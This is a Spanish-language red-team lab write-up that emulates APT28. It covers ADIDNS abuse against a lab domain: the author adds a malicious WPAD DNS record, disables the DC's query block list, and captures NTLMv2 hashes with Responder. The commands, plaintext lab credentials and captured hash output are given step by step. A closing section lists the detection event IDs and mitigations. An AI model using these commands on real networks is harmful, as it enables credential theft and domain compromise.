




# ADIDNS Abuse — Operación IRON FOREST
## Lab-04: DNS Poisoning via ADIDNS + Captura NTLMv2 con Responder

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 06 — ADIDNS Abuse  
**Fecha:** 29/05/2026 | **Operador:** Adrián Camacho


> **Módulo M3 · Ruta: `[rama: vector alternativo de credenciales]`**
>
> **Objetivo único:** DNS poisoning vía ADIDNS + captura NTLMv2 con Responder.
>
> **Prerequisito real:** M1 (red interna alcanzable).
>
> **Habilita:** fuente alternativa/complementaria de credenciales (NTLMv2 crackeable).
>
> **TTP:** T1557.001 · T1584.002

---

## FASE 06 — ADIDNS Abuse

### 6.1 Crear registro WPAD malicioso

**Objetivo:** ADIDNS permite a cualquier usuario autenticado crear registros DNS. Creamos `wpad.atackcorp.local` apuntando a Kali para capturar autenticaciones NTLM.

```bash
python3 /opt/redteam/krbrelayx/dnstool.py \
  -u 'atackcorp\fin.garcia' \
  -p 'Finance2024!' \
  --record 'wpad' \
  --action add \
  --data 10.0.2.9 \
  10.0.2.10
```

**Output:**
```
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

> 📸 Captura:
> 

---

### 6.2 Problema: DNS Global Query Block List

**Problema encontrado:** Windows Server bloquea la resolución de `wpad` por defecto via DNS Global Query Block List.

**Solución:** Desactivar desde DC-01 via Evil-WinRM:

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false
dnscmd /clearcache
```

> 📸 Captura:
> 

**Nota OPSEC:** Desactivar el DNS Global Query Block List es una modificación de configuración del DC que genera Event ID 5136 y puede alertar al Blue Team.

---

### 6.3 Verificación de resolución desde WKSTN-01

```powershell
Resolve-DnsName wpad.atackcorp.local -Server 10.0.2.10
```

**Output:**
```
Name                    Type  TTL  Section  IPAddress
wpad.atackcorp.local    A     180  Answer   10.0.2.9
```

> 📸 Captura:
> 

---

### 6.4 Responder — Captura NTLMv2

```bash
sudo responder -I eth0 -wF --lm
```

Desde WKSTN-01 via Evil-WinRM:

```powershell
$cred = New-Object System.Net.NetworkCredential("backup_svc", "Backup2024!", "ATACKCORP")
$wc = New-Object System.Net.WebClient
$wc.Credentials = $cred
$wc.DownloadString("http://wpad.atackcorp.local/wpad.dat")
```

**Output Responder:**
```
[HTTP] WPAD (auth) file sent to 10.0.2.8
[HTTP] NTLMv2 Client   : 10.0.2.8
[HTTP] NTLMv2 Username : ATACKCORP\backup_svc
[HTTP] NTLMv2 Hash     : backup_svc::ATACKCORP:9f213823665212a6:388E6F84...
```

> 📸 Captura:
> 

**Hash guardado en:** `loot/ntlmv2_backup_svc.txt`

---

### 6.5 Lecciones aprendidas

- Responder en modo `-A` (análisis) no captura hashes — requiere modo activo
- El puerto 80 de Responder conflicta con BloodHound CE y otros servicios — parar Docker antes
- `Invoke-WebRequest -UseDefaultCredentials` desde WinRM no propaga credenciales al proceso HTTP — usar `System.Net.WebClient` con credenciales explícitas

---

### 6.6 Detección — Blue Team

**Event IDs generados:**
- `5136` — Creación de registro DNS via LDAP
- `4662` — Modificación de DNS Global Query Block List

**Mitigación:**
- Deshabilitar actualizaciones DNS dinámicas para usuarios no administradores
- Mantener DNS Global Query Block List activo
- Monitorizar creación de registros `wpad` y `isatap` en AD DNS

---

*Operación IRON FOREST — Adrián Camacho | 29/05/2026*